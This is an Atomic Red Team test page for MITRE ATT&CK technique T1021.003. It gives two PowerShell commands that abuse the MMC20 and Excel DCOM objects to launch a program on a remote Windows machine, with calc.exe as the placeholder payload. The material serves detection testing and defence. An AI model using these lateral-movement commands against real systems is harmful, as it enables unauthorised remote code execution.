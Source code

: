 # T1021.003 - Remote Services: Distributed Component Object Model

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1021/003)

<blockquote>Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to interact with remote machines by taking advantage of Distributed Component Object Model (DCOM). The adversary may then perform actions as the logged-on user.

The Windows Component Object Model (COM) is a component of the native Windows application programming interface (API) that enables interaction between software objects, or executable code that implements one or more interfaces. Through COM, a client object can call methods of server objects, which are typically Dynamic Link Libraries (DLL) or executables (EXE). Distributed COM (DCOM) is transparent middleware that extends the functionality of COM beyond a local computer using remote procedure call (RPC) technology.(Citation: Fireeye Hunting COM June 2019)(Citation: Microsoft COM)

Permissions to interact with local and remote server COM objects are specified by access control lists (ACL) in the Registry.(Citation: Microsoft Process Wide Com Keys) By default, only Administrators may remotely activate and launch COM objects through DCOM.(Citation: Microsoft COM ACL)

Through DCOM, adversaries operating in the context of an appropriately privileged user can remotely obtain arbitrary and even direct shellcode execution through Office applications(Citation: Enigma Outlook DCOM Lateral Movement Nov 2017) as well as other Windows objects that contain insecure methods.(Citation: Enigma MMC20 COM Jan 2017)(Citation: Enigma DCOM Lateral Movement Jan 2017) DCOM can also execute macros in existing documents(Citation: Enigma Excel DCOM Sept 2017) and may also invoke [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002) (DDE) execution directly through a COM created instance of a Microsoft Office application(Citation: Cyberreason DCOM DDE Lateral Movement Nov 2017), bypassing the need for a malicious document. DCOM can be used as a method of remotely interacting with [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047). (Citation: MSDN WMI)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PowerShell Lateral Movement using MMC20](#atomic-test-1---powershell-lateral-movement-using-mmc20)

- [Atomic Test #2 - PowerShell Lateral Movement Using Excel Application Object](#atomic-test-2---powershell-lateral-movement-using-excel-application-object)

<br/>

## Atomic Test #1 - PowerShell Lateral Movement using MMC20

Powershell lateral movement using the mmc20 application com object.

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows

**auto_generated_guid:** 6dc74eb1-c9d6-4c53-b3b5-6f50ae339673

#### Inputs:

| Name          | Description      | Type   | Default Value |
| ------------- | ---------------- | ------ | ------------- |
| computer_name | Name of Computer | string | localhost     |

#### Attack Commands: Run with `powershell`!

```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Document.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```

<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement Using Excel Application Object

Powershell lateral movement using the Excel COM objects.

Reference:

https://posts.specterops.io/lateral-movement-abuse-the-power-of-dcom-excel-application-3c016d0d9922

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows

**auto_generated_guid:** 505f24be-1c11-4694-b614-e01ae1cd2570

#### Inputs:

| Name          | Description    | Type   | Default Value |
| ------------- | -------------- | ------ | ------------- |
| computer_name | Hostname or IP | string | localhost     |
| user          | Name of user   | string | admin         |

#### Attack Commands: Run with `powershell`!

```powershell
copy c:\windows\system32\calc.exe 'C:\users\#{user}\AppData\local\Microsoft\WindowsApps\foxprow.exe'
$com = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application","#{computer_name}"))
$com.ActivateMicrosoftApp("5")
```

#### Cleanup Commands:

```powershell
Remove-Item 'C:\users\#{user}\AppData\local\Microsoft\WindowsApps\foxprow.exe'
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft Excel must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```

<br/>
